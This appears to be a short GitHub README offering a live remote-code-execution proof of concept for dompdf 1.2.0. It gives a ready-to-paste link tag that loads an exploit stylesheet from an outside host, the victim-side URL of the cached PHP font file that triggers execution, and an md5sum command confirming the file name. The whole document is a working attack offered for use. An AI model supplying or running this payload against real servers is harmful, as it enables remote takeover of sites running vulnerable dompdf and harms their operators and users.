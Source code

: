 # Live RCE POC for dompdf 1.2.0

1. Use the following <link> tag in any injectable field: 
   - `<link rel=stylesheet href='https://abhishekg999.github.io/dompdf/exploit.css'>`
2. Navigate to `http://[VICTIM_HOST]/dompdf/lib/fonts/exploitfont_normal_de7ec71473780093df11e62fab83211f.php`
3. Profit?


The hash should be correct, you can verify the hash yourself:
```console
user@console:~$ echo -n https://abhishekg999.github.io/dompdf/exploit_font.php | md5sum
de7ec71473780093df11e62fab83211f  -
```


---

Based off https://github.com/positive-security/dompdf-rce

